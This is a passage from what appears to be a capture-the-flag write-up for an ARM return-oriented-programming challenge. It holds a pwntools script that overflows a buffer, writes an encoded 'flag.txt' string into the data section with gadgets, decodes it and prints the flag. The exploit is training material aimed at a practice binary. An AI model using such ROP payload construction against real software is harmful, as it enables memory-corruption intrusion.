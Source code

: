 ```python
pop_r4_gadget = p32(0x000105b0) #: pop {r4, pc};
pop_r5_r6_gadget = p32(0x00010614) #: pop {r5, r6, pc};

info('%#x - data section', datasection_addr)

# goal: write encoded string to data section
#flag.txt - 1 -> ek`f-sws

encoded_flag = b'ek`f-sws'

# decoded our encoded string
add_xploit = b""
for i in range(len(encoded_flag)):
   add_xploit += pop_r5_r6_gadget
   add_xploit += p32(datasection_addr + i)
   add_xploit += p32(0x1)
   add_xploit += add_gadget
   add_xploit += p32(datasection_addr)

# write first 4 bytes of encoded flag
payload = b"A" * pc_offset
payload += pop_r3_gadget
payload += encoded_flag[:4]
payload += pop_r4_gadget
payload += p32(datasection_addr)
payload += storage_gadget
payload += p32(datasection_addr)# r5
payload += p32(0x1) # r6

# write remaining 4 bytes of the encoded flag
payload += pop_r3_gadget
payload += encoded_flag[4:]
payload += pop_r4_gadget
payload += p32(datasection_addr + 4)
payload += storage_gadget
payload += p32(datasection_addr)# r5
payload += p32(0x1) # r6

# decode and pwn
payload += add_xploit
payload += call_print

io.sendlineafter("> ", payload)
io.recvuntil("Thank you!\n")
flag = io.recv()

success(flag)
```



Execute it and *voilà*, we got our flag!



```
[+] ROPE{a_placeholder_32byte_flag!}
```

